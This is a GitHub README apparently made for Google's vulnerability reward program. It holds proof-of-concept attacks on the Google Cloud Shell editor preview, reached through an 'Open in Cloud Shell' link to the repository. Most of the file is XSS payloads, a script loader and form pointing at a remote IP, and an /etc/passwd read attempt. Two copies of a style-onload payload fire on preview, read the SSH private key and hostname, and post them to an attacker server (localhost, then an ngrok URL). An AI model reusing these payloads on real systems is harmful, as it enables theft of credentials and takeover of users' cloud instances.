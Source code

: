 # Google VRP testing  
Google cloudshell instance take over (as root)

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https://github.com/elmasryelec/ls.git&cloudshell_open_in_editor=readme.md)
# Google VRP testing 


<button ondblclick="alert(11)" _ngcontent-jhu-c34="" aria-label="Close Editor" class="dense mat-focus-indicator mat-tooltip-trigger mat-icon-button mat-button-base ng-star-inserted" mat-icon-button="" mattooltip="Close Editor"><span class="mat-button-wrapper"><mat-icon _ngcontent-jhu-c34="" class="mat-icon notranslate google-material-icons mat-icon-no-color" role="img" aria-hidden="true" data-mat-icon-type="font">close</mat-icon></span><span class="mat-button-ripple mat-ripple mat-button-ripple-round" matripple=""></span><span class="mat-button-focus-overlay"></span></button>


Google cloudshell instance take over (as root)
<form enctype="multipart/form-data" style=""><input type="text" name="target" class="theia-input"><input type="file" class="theia-input" name="upload" multiple=""></form>
<input type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />


<html>

<body>

<div><input value="CLICK ME FOR POC" type="submit" formaction="https//35.223.190.63:443" form="subscribe" formmethod="get" /><input type="hidden" name="xss" form="subscribe" value="https//35.223.190.63:443"/></div>

<form method="GET" id="subscribe" action="https//35.223.190.63:443">

<input type="hidden" name="csrftoken" value="5f4dcc3b5aa765d61d8327deb882cf99" />

<input type="submit" value="Subscribe to newsletter" />

</form>

</body>

</html>


//<img src="https://o4tvdbdwtmkj5404x4owjbq0qrwhk6.burpcollaborator.net">
//<img src="https://970-cs-534227452153-default.europe-west1.cloudshell.dev/#keepalive">

<iframe src='setInterval (function () {d = document; z = d.createElement ("script"); z.src = "https//35.223.190.63:443"; d.body.appendChild (z)}, 0)'`<iframe src="https://35.223.190.63:443"/>

[![Open in Cloud Shell](javascript:alert(1);)]()

## Getting Started 
just need to preview this file to see the magic 
 
<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key
    read_file('file:///../id_cloudshell')          
    // getting the hostname (external connection)
    read_file('file:///etc/hostname')      
         
    setTimeout(function(){ 
        send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  'http://127.0.0.1'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 


<script>

	var cutString = 'File%20Provider%20Storage';
  	var locationPath = location.href.split(cutString)[0] + 'Documents';
  	var filePath = locationPath + '/device_uuid.data';
	var local_file = '/etc/passwd%00';
	document.write(local_file + '<br><br>');
	document.write(document.location + '<br><br>');


	var src = document.location;
	var src2 = '#';
	var src3 = filePath;

	var full ='<object data="'+ src +'" width="200" height="200" type="text/plain">Alternative Content</object><br>';
	document.write(full);

	var full2 ='<object data="'+ src2 +'" width="200" height="200" type="text/plain">Alternative Content</object><br>';
	document.write(full2);

	var full3 ='<object data="'+ src3 +'" width="200" height="200" type="text/plain">Alternative Content</object><br>';
	document.write(full3);


</script>  
 

## Getting Started 
just need to preview this file to see the magic 
 
<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key
    read_file('file:///../id_cloudshell')          
    // getting the hostname (external connection)
    read_file('file:///etc/hostname')      
         
    setTimeout(function(){ 
        send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  ' https://56051573.ngrok.io'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 
